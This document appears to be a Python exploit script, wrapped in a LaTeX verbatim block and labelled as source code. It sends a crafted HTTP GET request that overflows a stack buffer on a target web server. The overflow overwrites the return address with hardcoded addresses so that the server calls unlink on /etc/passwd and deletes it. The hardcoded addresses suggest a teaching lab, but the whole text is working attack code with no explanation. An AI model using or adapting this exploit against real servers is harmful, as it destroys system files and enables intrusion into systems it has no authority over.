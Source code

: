 \documentclass[psamsfonts]{amsart}
\begin{document}
\begin{verbatim}
#!/usr/bin/env python
import sys
import socket
import struct
import traceback
import urllib

reqpath = 0xffb705dc
ebp     = 0xffb706f8
unlink  = 0x8048970
beef    = 0xdeadbeef
retaddr = ebp + 4
fname = "/etc/passwd"

def encode(p):
  return urllib.quote(struct.pack("I", p))

def build_exploit():
  req = ("GET " +
        "x" * (retaddr - reqpath) +
        encode(unlink) +
        encode(beef) +
        encode(retaddr + 12) +
        fname +
        " HTTP/1.0\r\n\r\n")

  return req

def send_req(host, port, req):
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  print("Connecting to %s:%d..." % (host, port))
  sock.connect((host, port))

  print("Connected, sending request...")
  sock.send(req)

  print("Request sent, waiting for reply...")
  rbuf = sock.recv(1024)

  resp = ""
  while len(rbuf):
    resp = resp + rbuf
    rbuf = sock.recv(1024)

  print("Received reply.")
  sock.close()
  return resp

if len(sys.argv) != 2:
  print("Usage: " + sys.argv[0] + " host:port")
  exit()
(host, port) = sys.argv[1].split(":")
port = int(port)

try:
  req = build_exploit()
  print("HTTP request:")
  print(req)

  resp = send_req(host, port, req)
  print("HTTP response:")
  print(resp)
except:
  print("Exception:")
  print(traceback.format_exc())

\end{verbatim}
\end{document}
